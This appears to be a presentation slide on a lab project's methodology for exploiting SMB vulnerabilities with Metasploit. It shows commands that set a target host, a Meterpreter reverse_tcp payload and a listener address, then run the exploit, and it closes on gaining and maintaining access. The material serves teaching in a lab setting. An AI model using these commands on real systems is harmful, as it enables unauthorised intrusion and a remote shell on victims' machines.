

Methodology

Our project utilizes the Metasploit framework to demonstrate the exploitation of vulnerabilities in the SMB protocol. The methodology is divided into several key phases: setup of the lab environment, information gathering, vulnerability identification, exploitation, and post-exploitation analysis.
Set the target IP address and other required options.
Example commands in Metasploit:
bash
Copy code
set RHOST 192.168.0.101
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.0.102
Executing the Exploit:
Run the exploit to gain access to the target system.
Example command in Metasploit: exploit
5. Post-Exploitation Analysis
Gaining and Maintaining Access